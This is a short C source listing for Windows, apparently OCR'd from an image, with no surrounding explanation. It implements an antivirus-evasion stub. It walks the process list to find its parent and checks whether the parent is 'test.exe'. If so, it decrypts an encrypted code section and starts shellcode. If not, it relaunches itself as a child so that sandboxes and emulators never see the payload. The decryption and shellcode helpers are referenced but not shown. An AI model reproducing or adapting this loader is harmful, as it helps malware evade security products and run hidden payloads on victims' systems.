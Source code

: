 ```c
#include <TlHelp32.h>
#include <Psapi.h>
#pragma comment(lib, "Psapi.lib")
int main()
{
    int pid = -1;
    HANDLE hProcess;
    HANDLE h = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe = {0};
    pe.dwSize = sizeof(PROCESSENTRY32);
    // Get current PID
    pid = GetCurrentProcessId();
    if (Process32First(h, &pe))
    {
        // find parent PID
        do
        {
            if (pe.th32ProcessID == pid)
            {
                // Now we have the parent ID, check the module name
                // Get a handle to the process.
                hProcess = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ, FALSE,
                                       pe.th32ParentProcessID);
                // Get the process name.
                if (NULL != hProcess)
                {
                    HMODULE hMod;
                    DWORD cbNeeded;
                    TCHAR processName[MAX_PATH];
                    if (EnumProcessModules(hProcess, &hMod, sizeof(hMod), &cbNeeded))
                    {
                        // If parent process is myself, decrypt the code
                        GetModuleBaseName(hProcess, hMod, processName,
                                          sizeof(processName) / sizeof(TCHAR));
                        if (strncmp(processName, "test.exe", strlen(processName)) == 0)
                        {
                            decryptCodeSection();
                            startShellCode();
                        }
                        else
                        {
                            // or else call my binary in a new process
                            startExe("test.exe");
                            Sleep(100); // Wait for child
                        }
                    }
                }
                // Release the handle to the process.
                CloseHandle(hProcess);
            }
        } while (Process32Next(h, &pe));
    }
    CloseHandle(h);
    return 0;
}
```
